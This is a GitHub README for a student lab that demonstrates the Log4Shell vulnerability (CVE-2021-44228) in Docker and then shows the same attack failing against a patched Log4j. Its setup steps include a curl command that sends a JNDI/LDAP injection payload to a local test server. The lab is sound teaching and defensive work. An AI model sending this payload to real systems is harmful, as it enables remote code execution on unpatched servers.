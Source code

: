 # HW9-Log4Shell Exploit

This project sets up a Docker-based environment to demonstrate the exploitation of the Log4Shell vulnerability (CVE-2021-44228), apply common defensive measures, and simulate an incident response process. It is designed for educational and training purposes only.

---

## 🛠️ Installation Instructions

### Step 1: Set Up the Vulnerable Environment

Deploy a Java application with a vulnerable version of Log4j (2.14.1) using Docker Compose.

```bash
cd ../Exploit
docker-compose up --build

#After the environment is up and running, simulate an attack using the following commands:

curl -H "Content-Type: text/plain" --data 'test' http://localhost:8080/log
curl -X POST http://localhost:8080/log -d "${jndi:ldap://host.docker.internal:389/a}"

#Teardown
docker-compose down
docker ps -a  # Ensure no containers are still running

#Defend 

#Switch to the defense environment:
cd ../Defend
docker-compose up --build

#Run a harmless log entry and a repeat of the exploit attempt:

#Windows Command Prompt
curl -X POST http://localhost:8080/log -d "Hello, world!"
curl -H "Content-Type: text/plain" --data 'test' http://localhost:8080/log"
curl -X POST http://localhost:8080/log -d "${jndi:ldap://host.docker.internal:389/a}"

#Technologies Used
#Docker
#Docker Compose
#Java (Log4j 2.14.1 in Exploit and Log4j 2.17.0 in Defend)
#Maven
#MITRE ATT&CK Framework

#Author:
#Yvette Kushmerick
